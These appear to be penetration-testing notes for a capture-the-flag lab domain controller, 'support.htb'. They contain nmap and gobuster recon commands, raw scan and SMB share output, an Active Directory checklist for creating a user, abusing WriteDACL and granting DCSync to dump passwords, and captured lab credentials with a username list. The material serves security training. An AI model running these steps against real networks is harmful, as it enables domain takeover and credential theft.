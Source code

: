 ## Basic commands

```
# Extract VPN IP - $attack
attack=$(ip a show dev tun1 | egrep -o '[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}')

# Config TMUX
tmux setenv TARGET $TARGET && export TARGET=$TARGET
tmux setenv attack $attack && export attack=$attack

# Scan open ports
TCPports=$(sudo nmap -Pn -p- -T4 $TARGET -oA nmap/TCPports -v | egrep "^[0-9]{2,5}" | sed -E "s#/.*##g" | tr "\n" "," | sed 's/.$//') && echo $TCPports
UDPports=$(sudo nmap -T5 -Pn -sU $TARGET -oA nmap/UDPports -v | egrep "^[0-9]{2,5}" | sed -E "s#/.*##g" | tr "\n" "," | sed 's/.$//') && echo $UDPports

# Scan services of open ports
sudo nmap -Pn -p$TCPports -sS -sV -sC -PA $TARGET -oA nmap/Tserv
sudo nmap -Pn -p$UDPports -sS -sV -sC -sU $TARGET -oA nmap/Userv
-PA: TCP ACK ping

# Basic directory fuzzyng
gobuster dir -u http://$TARGET -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x eXt,eXt,eXt -k -o gobuster.txt
png,jpg,config,html,asp,aspx,php,php5,xml,htm,exe

# Modify hosts file
sudo sed -i "/$TARGET      domain/d" /etc/hosts
echo "$TARGET      domain" | sudo tee -a /etc/hosts
```

[] Mount points
[] SMB
[] DNS
[] ftp
[] http enum
    [] folders 
    [] files -x txt,php,html
[] run as admin
[] cron jobs
[] SQL injection
[] Windows suggestor
[] Upload to target
    [] linpeas
    [] pspy

AD
    [] domain name
    [] find users rpcclient -U "" -N $TARGET
    [] kerberos pre authentication disabled (https://github.com/ropnop/kerbrute/releases/tag/v1.0.3 + getPNusers.py (impatck))
    [] net user /domain
    [] net user username
    [] write privileges writeDACL (Bloodhound/sharphound)
        [] create user + add user to group with writedacl + give dsync privilege + dump passwords
        net user USERNAME PASSWORD /add /domain
        net group "GROUP NAME" /add USERNAME
        pass + cred + Add-ObjectACL -PrincipalIdentity USER -Credential -Rights DCSync

How many ports?

Versions?

Paths of URL?

Known CVE


Not shown: 65518 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49664/tcp open  unknown
49667/tcp open  unknown
49670/tcp open  unknown
49673/tcp open  unknown
49745/tcp open  unknown



PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-02-02 10:53:46Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49673/tcp open  msrpc         Microsoft Windows RPC
49745/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-02-02T10:54:40
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required


	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	support-tools   Disk      support staff tools
	SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available

support-tools
Password for [WORKGROUP\patota]:
Try "help" to get a list of possible commands.
smb: \> prompt off
smb: \> recurse on
smb: \> ls
  .                                   D        0  Wed Jul 20 18:01:06 2022
  ..                                  D        0  Sat May 28 12:18:25 2022
  7-ZipPortable_21.07.paf.exe         A  2880728  Sat May 28 12:19:19 2022
  npp.8.4.1.portable.x64.zip          A  5439245  Sat May 28 12:19:55 2022
  putty.exe                           A  1273576  Sat May 28 12:20:06 2022
  SysinternalsSuite.zip               A 48102161  Sat May 28 12:19:31 2022
  UserInfo.exe.zip                    A   277499  Wed Jul 20 18:01:07 2022
  windirstat1_1_2_setup.exe           A    79171  Sat May 28 12:20:17 2022
  WiresharkPortable64_3.6.5.paf.exe      A 44398000  Sat May 28 12:19:43 2022


(domain:support.htb)

ldapsearch -x -b "dc=support,dc=htb" -H ldap://$TARGET


Washington10URedmond10U
0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E armando
pwdLastSetlastLogongivenNamesn
0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E 

support:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz

:Ironside47pleasure40Watchful

Username:
raven.clifton
anderson.damian
monroe.david
cromwell.gerard
west.laura
levine.leopoldo
langley.lucy
daughtler.mabel
bardot.mary
stoll.rachelle
thomas.raphael
smith.rosario
wilson.shelby
hernandez.stanley
ford.victoria